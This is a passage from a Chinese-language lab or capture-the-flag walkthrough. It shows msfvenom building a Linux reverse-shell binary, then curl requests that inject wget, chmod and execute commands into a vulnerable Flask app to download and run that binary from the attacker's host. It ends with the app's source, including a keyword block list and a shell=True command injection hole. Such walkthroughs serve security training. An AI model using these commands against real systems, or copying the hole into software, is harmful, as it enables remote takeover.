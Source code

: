 后续操作就比较简单了，kali 使用 *msfvenom* 生成一个linux反向shell，并上传到靶机的 `/tmp` 目录并运行即可。

```shell
┌──(root💀kali)-[~]
└─# msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.174.128 lport=8899 -f elf -o back.elf

┌──(root💀kali)-[~]
└─# curl -X POST http://192.168.174.134:5000/?username=wget+http://192.168.174.128:9999/back.elf+-O+/tmp/back.elf\&password=gg

┌──(root💀kali)-[~]
└─# curl -X POST http://192.168.174.134:5000/?username=ls+-al+/tmp/back.elf\&password=gg
-rw-r--r-- 1 www-data www-data 250 Oct  6 13:54 /tmp/back.elf

┌──(root💀kali)-[~]
└─# curl -X POST http://192.168.174.134:5000/?username=chmod+777+/tmp/back.elf\&password=gg

┌──(root💀kali)-[~]
└─# curl -X POST http://192.168.174.134:5000/?username=/tmp/back.elf\&password=gg
```

#### Getshell

Kali 通过 *msfconsole* 来监听端口，一旦运行 `/tmp/back.elf` 程序即可getshell。查看 `/opt/1337/vuln/app.py` 文件观察到程序过滤了：`["|", "*", "^", "$", ";", "nc", "bash", "bin", "eval",  "python"`这些字符，除此之外没有特殊信息。

```python
import subprocess
from flask import Flask, request

app = Flask(__name__)
app.secret_key = "key"

RCE = ["|", "*", "^", "$", ";", "nc", "bash", "bin", "eval",  "python"]

def validate(cmd):
    try:
        for i in RCE:
            if i in cmd:
                return False
        return True
    except Exception:
        return False

@app.route("/", methods=["POST"])
def index():
    command = request.args.get("username")
    if validate(command):
        output = subprocess.Popen(command, shell=True,
                                  stdout=subprocess.PIPE).stdout.read()
    else:
        output = "Access Denied!!"
    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```
